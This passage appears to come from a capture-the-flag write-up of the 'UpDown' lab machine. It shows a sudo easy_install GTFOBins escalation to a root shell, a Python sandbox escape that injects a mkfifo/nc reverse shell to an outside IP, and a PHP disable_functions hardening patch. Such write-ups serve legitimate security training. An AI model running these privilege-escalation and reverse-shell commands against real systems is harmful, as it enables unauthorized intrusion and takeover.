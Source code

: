 	User developer may run the following commands on localhost:
	    (ALL) NOPASSWD: /usr/local/bin/easy_install
	```
	![]({{ page.img_path }}Pasted%20image%2020221024203906.png)
	> `easy_install` - has a [GTFOBins Entry](https://gtfobins.github.io/gtfobins/easy_install/)
	{: .prompt-info }
	
## Root - SUDO GTFOBINS
1. How do we exploit `easy_install`?
	- We can break out from restricted environments by spawning an interactive system shell.
2. Exploiting `easy_install`
	-  Spawn a `root` shell
		```
		developer@updown:/tmp$ TF=$(mktemp -d)
		developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
		developer@updown:/tmp$ sudo /usr/local/bin/easy_install $TF
		WARNING: The easy_install command is deprecated and will be removed in a future version.
		Processing tmp.bFSWGPKmBI
		Writing /tmp/tmp.bFSWGPKmBI/setup.cfg
		Running setup.py -q bdist_egg --dist-dir /tmp/tmp.bFSWGPKmBI/egg-dist-tmp-ZC4HiO
		#
		```
3. Demo - `easy_install` GTFOBins Privilege Escalation
	![](QrHlh59tyU.gif)


# Additional


## Developer - Escape Python Sandbox Environment
1. Instead of Python PATH Hijacking, we escape the python sandbox environment
2. Execute `/home/developer/dev/siteisup` & escape the sandbox environment
	```
	www-data@updown:/tmp$ /home/developer/dev/siteisup
	Welcome to 'siteisup.htb' application
	
	Enter URL here:__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4444 >/tmp/f')
	rm: cannot remove '/tmp/f': No such file or directory
	```
	![](wX9TAbpvz3.gif)

## Patch Command Execution (phpinfo)
1. Add `proc_open` to the list of banned functions
	```
	# nano /etc/php/8.0/apache2/php.ini
	# CTRL + W to find disable_functions
	disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcn
	tl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,
	pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlin
	k,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen, proc_open
	```